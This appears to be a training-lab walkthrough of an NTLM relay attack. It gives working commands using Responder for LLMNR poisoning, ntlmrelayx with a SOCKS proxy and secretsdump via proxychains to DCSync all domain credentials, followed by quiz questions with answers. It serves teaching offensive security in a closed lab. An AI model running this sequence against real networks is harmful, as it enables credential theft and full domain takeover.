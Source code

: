 #NTLM relay

An NTLM relay attack focuses on intercepting NTLM messages sent from a legitimate client trying to access some service, modifying them, and redirecting them to a legitimate server, impersonating the original client. This attack can be perpetrated by an attacker which positions themselves between the server and the client (MITM).

This MITM position can be reached through the use of the LLMNR poisoning attack, for example, also addressed in this lab.

In order to perpetrate this attack, two terminals will be used. In order to use two terminals, access the "Attacker2" machine and execute the following:
```
ip add add 192.168.122.35/24 dev eth0
ssh ubuntu@192.168.122.2
#introduce ubuntu's password (it's 'ubuntu')
```

Now, onto the attack. This attack will only work against machines that have SMB signing disabled. To check which machines are vulnerable, execute the following:
```
crackmapexec smb 192.168.122.0/24
```
It seems that both MEMBER and CAPTAIN have SMB signing disabled, both being susceptible to this attack.

To perpetrate this attack, first change the 'Responder.conf' file content to what can be seen in  [Responder.conf.txt](../single-domain-attacks/Responder.conf.txt). Then, create a file named 'targets.txt' with the contents seen in  [targets.txt](../single-domain-attacks/targets.txt). Now, in one terminal:

```
ntlmrelayx.py -tf targets.txt -socks -smb2support
#if you see some permission error upon running this script, do the following
readlink -f $(which python3)
sudo setcap cap_net_bind_service=+ep <output from the last command>
```
Once the ntlmrelayx.py script is listening for incoming NTLM messages, on a different terminal, start the Responder tool, which will poison legitimate clients through LLMNR, which will result in the client sending NTLM messages to the attacker.

```
#in the Responder directory
sudo -E python3 Responder.py -I ens3
```
After waiting for +/- 5 minutes, you should now have relayed authentication from both the Administrator and Hank accounts to the CAPTAIN DC. In order to verify relayed connections, run the following:
```
#in the ntlmrelayx terminal
socks
```
This command will output connections that can be used through a SOCKS5 proxy. You can now perform a DCSync attack using the Administrator connection, since this account has the necessary permissions to replicate DC data. With the DCSync, you retrieve every domain credential, compromising the domain. For this, use the secretsdump.py script from Impacket, along with the proxychains4 tool, in order to use the SOCKS proxy, and therefore, the Administrator's connection (Do not stop the ntlmrelayx script from running, stop the Responder tool and use that same terminal):
```
sudo -E proxychains4 $(which secretsdump.py) -no-pass -use-vss POLARIS/Administrator@192.168.122.10
```

This way, just by relaying NTLM messages, an attacker is able to compromise the whole domain.

!!! question
    How was the attacker able to position itself between the client and the server? 
??? success "Answer"
    The MITM position was reached through LLMNR poisoning through the Responder tool. The Responder tool listens for legitimate LLMNR requests and issues poisoned replies to clients, indicating that the server that the client wants to access is in fact the attacker machine. This way the attacker can position itself between the client and server.
!!! question
    What's the role of the SOCKS proxy in this attack?
??? success "Answer"
    In this attack, the attacker establishes a SOCKS5 proxy on their own machine, bound to the context of the compromised session (Admin/Hank's) by means of a NTLM relay attack. Tools like proxychains then route traffic through this proxy, making it appear as if requests originate from the relayed host. This enables the attacker to directly access internal services—such as dumping credentials with secretsdump.py—using the victim’s authenticated session.